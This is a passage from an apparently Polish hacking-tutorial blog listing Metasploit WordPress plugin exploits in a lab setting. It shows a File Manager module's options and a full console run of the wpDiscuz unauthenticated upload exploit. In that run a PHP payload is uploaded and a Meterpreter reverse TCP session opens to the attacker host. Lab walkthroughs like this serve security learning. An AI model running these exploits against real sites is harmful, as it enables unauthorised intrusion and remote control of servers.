 ```console
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path to WordPress installation
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress File Manager 6.0-6.8 
```

#### wp_wpdiscuz_unauthenticated_file_upload
Zastowowanie tego pluginu znajdziesz w [Beloved](https://kerszl.github.io/hacking/walkthrough/beloved/). Poniżej przykład użycia.
{: .text-justify}
```console
msf6 > use exploit/unix/webapp/wp_wpdiscuz_unauthenticated_file_upload
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > set BLOGPATH /2021/06/09/hello-world/
BLOGPATH => /2021/06/09/hello-world/
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > set rhosts 172.16.1.200
rhosts => 172.16.1.200
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > set lhost eth0
lhost => eth0
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > run

[*] Started reverse TCP handler on 172.16.1.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Payload uploaded as oRmLwLOvrhs.php
[*] Calling payload...
[*] Sending stage (39282 bytes) to 172.16.1.200
[*] Meterpreter session 1 opened (172.16.1.10:4444 -> 172.16.1.200:34720) at 2021-09-30 11:00:35 +0200


[!] This exploit may require manual cleanup of 'oRmLwLOvrhs.php' on the target
```
#### wp_plainview_activity_monitor_rce
To już dosyć stary plugin, ale pewnie jak poszukasz to go gdzieś znajdziesz w Internecie. Przykład użycia znajdziesz w [Dc6](https://kerszl.github.io/hacking/walkthrough/dc-6/).
{: .text-justify}
